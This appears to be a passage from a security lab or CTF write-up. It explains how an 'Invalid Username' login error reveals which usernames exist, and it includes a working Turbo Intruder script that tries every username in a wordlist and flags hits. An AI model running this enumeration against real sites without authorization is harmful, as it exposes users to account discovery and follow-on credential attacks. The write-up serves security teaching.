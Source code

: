 <img src="images/5-error.png">

This error message is actually poor security practice. Industry standards would return a more generic message like "Invalid Login". By saying specifically, "Invalid Username", the site is allowing us to determine whether or not a username we enter actually exists on the site. 

I wrote a quick script for the Turbo Intruder Burp Suite extension to attempt logging in with all the usernames in a wordlist. It then makes a note if it can find one that returns a page that doesn't contain the text "Invalid Username":

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    for word in open('C:/Users/user/dev/SecLists/Usernames/Names/names.txt'):
        engine.queue(target.req, word.strip())


def handleResponse(req, interesting):
    if 'Invalid Username' not in req.response:
        table.add(req)
```
